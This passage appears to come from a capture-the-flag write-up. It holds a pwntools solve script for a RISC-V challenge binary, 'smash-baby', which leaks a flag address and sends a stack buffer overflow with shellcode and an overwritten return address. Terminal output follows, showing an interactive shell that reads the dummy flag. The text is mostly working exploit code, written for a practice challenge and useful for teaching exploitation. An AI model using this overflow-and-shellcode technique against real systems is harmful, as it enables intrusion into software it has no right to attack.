 ```python

def main():
    # connect to challenge
    p = process(['qemu-riscv32', '-E', 'TIMEOUT=60', '-E', 'FLAG=dummyflag', './smash-baby'])
    #p = remote('localhost', 12345)

    # extract flag address
    p.recvuntil(b'here is something useful: ')
    flag_addr = int(p.recvline().strip(), 0)
    log.info('Flag address: %#x\n', flag_addr)
    p.recvuntil(b'Exploit me!\n')

    # shellcode
    shellcode = generate_shellcode(flag_addr)
    shellcode_offset = -0x40+0x24 - 0x30 - 0x140 # -396
    shellcode_addr = flag_addr + shellcode_offset
    payload = b''
    payload += b'ACEG'
    payload += p16(0xcefa)
    payload += shellcode
    payload += b'A' * (300-len(shellcode))

    # overflow
    overflow_offset = 0x24
    payload += b'ACEG'
    payload += p16(0x4242)
    payload += b'A' * overflow_offset
    payload += p32(shellcode_addr)

    p.send(payload)
    p.interactive()


if __name__ == "__main__":
    main()
```

Running the script gives the following output.

```terminal
$ python3 solve.py
[+] Starting local process '/usr/bin/qemu-riscv32': pid 14268
[*] Flag address: 0x407fff4c
[!] Could not find system include headers for riscv-linux
[*] Switching to interactive mode
$ ls
flag.txt  smash-baby  solve.py
$ cat flag.txt
dummyflag
```

Pwned!
